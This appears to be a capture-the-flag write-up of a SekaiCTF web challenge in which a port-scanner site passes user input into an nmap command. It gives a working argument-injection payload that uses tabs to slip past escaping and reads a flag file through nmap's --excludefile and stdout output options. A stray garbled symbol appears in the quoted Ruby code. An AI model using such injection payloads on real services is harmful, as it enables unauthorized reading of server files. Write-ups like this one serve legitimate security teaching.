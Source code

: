 ```yaml
---
layout: post
current: post
cover:  assets/sekai/nisala/scanner_cover.webp
navigation: True
title: "Vulnerability Scanner"
date: 2023-09-08 10:00:00
tags: [SekaiCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


Scanner? Buddy!

In this challenge, we're presented with a vulnerability scanner, which we can use to scan for open ports at an IP.

![Image of the challenge website](/assets/sekai/nisala/scanner.webp)

Here's what the scanner is doing internally:

```rb
post '/' do
input_service = escape_shell_input(params[:service])
hostname, port = input_service.split ':', 2∑
begin
    if valid_ip? hostname and valid_port? port
        # Service up?
        s = TCPSocket.new(hostname, port.to_i)
        s.close
        # Assuming valid ip and port, this should be fine
        puts "nmap -p #{port} #{hostname}"
        @scan_result = IO.popen("nmap -p #{port} #{hostname}").read
    else
        @scan_result = "Invalid input detected, aborting scan!"
    end
end
```


Okay, so we're just inserting text into an `nmap` command. Should be simple enough to exploit, right? Well, it would be... except some characters are being escaped by the function on the second line: 

```
space, $, \`, ", |, &, ;, <, >, (, ), ', \n, *`
```

So that's a lot, but it's definitely not everything. Although it looks like we won't be able to chain commands to run something else in addition to nmap, we can still exploit `nmap` to do some things it shouldn't.

The first problem to get around is adding additional arguments to the `nmap` call. After all, spaces are escaped, right? And this is true... but they forgot about tabs. So we can just use tabs instead of spaces.

The next problem to tackle is what file reading technique to use. See, the flag is stored in a file at a randomized path, and there are a number of ways to get `nmap` to read files, from using nmap scripts like `http-put` to upload files to a remote server, to using a file as a list of places to scan, and more. We started with the second one because it seemed easier, and ended up with a payload like this:

```
# Tabs changed to spaces for readability
1.1.1.1:80 --excludefile /flag-????????????????????????????????.txt
```

This turns into the following `nmap` command:
```
nmap -p 80 --excludefile /flag-????????????????????????????????.txt 1.1.1.1
```

And if you just run this on a computer, it'll give you some great output:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-08 20:34 UTC
Error resolving name "sekai{flag}": Name or service not known

QUITTING!
```

This doesn't work if you run it on the website, though: 

![Image of the challenge website, showing just a starting nmap output and nothing else](/assets/sekai/nisala/scanner_bad.webp)

It seems that this error is sent to `stderr`, but the scanner website only sends output from `stdout`. So, what can we do? Well, after some documentation reading, we realized that we can route all output to `stdout`:

```
# Tabs changed to spaces for readability
1.1.1.1:80 --excludefile /flag-????????????????????????????????.txt -oN	- stdout
```

And there's our flag!

![Image of the challenge website, showing the flag](/assets/sekai/nisala/scanner_flag.webp)

We actually "solved" this challenge hours before we actually did -- we had the right payload from the beginning, but we used "\t" in the input box instead of actual tabs because people on our team didn't set up the Docker container for the challenge and created our own reproduction instead. Lesson learned! :)
